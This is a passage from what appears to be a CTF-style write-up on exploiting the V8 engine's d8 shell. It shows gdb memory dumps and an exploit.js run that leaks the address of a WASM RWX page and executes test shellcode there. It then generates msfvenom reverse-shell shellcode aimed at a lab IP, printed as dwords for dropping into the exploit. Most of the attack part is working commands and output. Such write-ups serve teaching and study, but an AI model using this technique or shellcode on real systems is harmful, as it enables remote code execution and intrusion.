 ```
...[snip]...
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x555ab15c0180, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gef➤  x/12xw 0x935080c5e29-1
0x935080c5e28:  0x08281189      0x080406e9      0x080406e9      0x00000008
0x935080c5e38:  0x00000000      0xb153a820      0x0000555a      0xb159dc30 <-- backing store at 0x14
0x935080c5e48:  0x0000555a      0x00000002      0x00000000      0x00000000

```

For now, I’ll let the shellcode be four 0xCC, which is the [INT3](https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3) instruction that sets a breakpoint. If I hit this code, `gdb` will break. When I run this, it does!

```

gef➤  run --allow-natives-syntax exploit.js --shell
Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fd766778700 (LWP 67784)]
[*] Creating WASM RWX page
[+] Found pointer to wasm_instance: 0x82112bd
[+] Found address of rwx page: 0x3937f5d78000
[*] Copying shellcode tp rwx page
[*] Executing shellcode...

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
0x00003937f5d78001 in ?? ()

```

The RIP is at 0x00003937f5d78001, and the leaked rwx page address is 0x3937f5d78000, so that’s a hit!

#### Weaponize Shellcode

Next I need to put real shellcode in. I’ll start with a payload that will get a reverse shell from my Ubuntu dev VM back to my Kali VM on my local nextwork. `msfvenom` has the payload format `dword`, which I can use to get the shellcode in a format I can drop into `exploit.js`:

```

root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.1.1.140 LPORT=443 -f dword
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 76 bytes
Final size of dword file: 232 bytes
0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x8c01010a, 0xe6894851, 0x6a5a106a, 
0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
0x52e78948, 0xe6894857, 0x0000050f

```
